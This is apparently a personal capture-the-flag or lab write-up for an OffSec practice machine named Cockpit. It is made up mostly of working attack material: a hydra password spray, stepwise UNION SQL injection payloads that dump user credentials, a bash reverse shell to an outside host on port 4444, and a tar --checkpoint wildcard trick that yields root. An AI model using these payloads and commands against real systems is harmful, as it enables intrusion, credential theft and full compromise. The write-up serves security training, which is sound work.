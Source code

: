 # Cockpit - 192.168.205.10
## TLDR
1. Two web servers running, port 80 & 9090
2. Port 80 has SQLi, which we abused to get login credentials for admin
3. We now can login to the portal on port 80.
4. Here we find more credentials, Base64 encoded
5. These credentials, james user, allow for login to the portal on port 9090.
6. Here we find a terminal that we can interact wtih the system with
7. Get revShell
8. sudo -l shows we can use tar as root
9. GTFObin, tar --checkpoint option, with spaces in filenames to get root and flag.

## Open Ports
```
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)

9090/tcp open  http    syn-ack ttl 61 Cockpit web service 198 - 220

```
## TCP 80
- We have a login page at `http://192.168.205.10/login.php/`
	- default credentials didn't allow login, sending to burp
	- Invalid password!
	- by JDgodd | blaze.offsec
- maybe blaze.offsec is a virtual host?
- Inserting single apostrophe, thorws a SQL error

## Password Spray
```bash
# wwwuseres.txt has admin, administrator, blaze, .. should have added JDgodd
hydra -L ./wwwusers.txt -P /usr/share/wordlists/rockyou.txt 192.168.205.10 http-post-form "/login.php:username=^user^&password=^PASS^:Invalid password"

[80][http-post-form] host: 192.168.205.10   login: admin   password: sleepy

``` 
- Success!  Found valid creds: `admin:sleepy`
- Wasn't able to login though, the login is 'blocked'
## SQLi testing
1. Create error
2. find number of columns
3. Find which columns are visible
4. List Current DB
5. Query Schema for DB, table, column names
6. Exfil Data from columns using group_concat

### 1. Create error
- single `'` in username field throws SQL error.
- Sending to repeater in burp
- ```bash
    username=admin%27&password=pass
  ```
  - If you look at the POST request, you'll see our single quote/apostrophe, got ENCODED
  - That MEANS, we might have to  ENCODE certain characters requests, to get them to work as well.
  - Burp, use our order by syntax but URL encode it
  ### 2. Find Number of Columns
  - this syntax seems to work however `' ORDER BY 10-- `  
- HackTrack With mentors mentiosn using `'+ORDER+BY+10--+` 
```sql
POST /login.php/login.php HTTP/1.1
Host: 192.168.205.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded

  username='+ORDER+BY+5--+
``` 
##### Number Columns = 5
### 3. Find which columns are visible
- Issue the command, in burp, or browser
- Easiest to see if you look at the RENDERED page, 
-  Find the text corresponding to your visible columns
```
'+union+select+'A1','B2','C3','D4','D5'--+-
<<< B2 is Visible >>>
```
### 4. List Current DB
```
username='+union+select+'A1',database(),'C3','D4','D5'--+-
<<<  DB = BlazeDB >>>
```

### 5.  Query Schema for DB, Table, Column Names 

```
# List all tables inside current database
username='+union+select+'A1',table_name,'C3','D4','D5'+from+information_schema.tables--+

# Define WHERE clause to narrow search
username='+union+select+'A1',table_name,'C3','D4','D5'+from+information_schema.tables+where+table_schema=database()--+
<<<   Table_name = users >>> 

# Query for table column names from Schema
username='+union+select+'A1',column_name,'C3','D4','D5'+from+information_schema.columns+where+table_name='users'--+
<<<   Interesting columns   >>> 
```
### 6. Exfil Data From Columns Using group_concat
```
# Exfiltrate data from columns
'+union+select+'A1',group_concat(name,'@@',username,'@@',password),'C3','D4','D5'+from+users--+-
<<< james@@admin@@canttouchhhthiss@455152 >>>
name = james
username = admin
password = canttouchhhthiss@455152

```

We now can login to the portal
On the portal, we find 2 encrypted words/passwords, Base64 encoded

james : Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI= : canttouchhhthiss@455152
cameron : dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy : thisscanttbetouchedd@455152
JDgodd


## SSH
192.168.205.10
ssh  admin@192.168.205.10 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -p 22

SSH doesn't work

with NEW credentials, we are able to login on that login page we saw open at the start, 9090
https://192.168.205.10:9090/system/terminal
With username james : canttouchhhthiss@455152
There is a terminal we can get on the box with!

Downloaded linpeas.sh

## RevShell
- seemed to be some limits with the terminal we were in, used  revshell instead
`/bin/sh -i >& /dev/tcp/192.168.45.190/4444 0>&1`

 `sudo -l` command shows that user **james** can run the following command as root **without a password**: 
- tar has options  which will stop it during processing, allowing for command execution
- we trick ta  by passing these options, with special characters, so they look like files, but  processed like options 
```
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh payload.sh"
echo "/bin/bash" > payload.sh  
chmod +x payload.sh 
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
whoami, root
flag is at /root
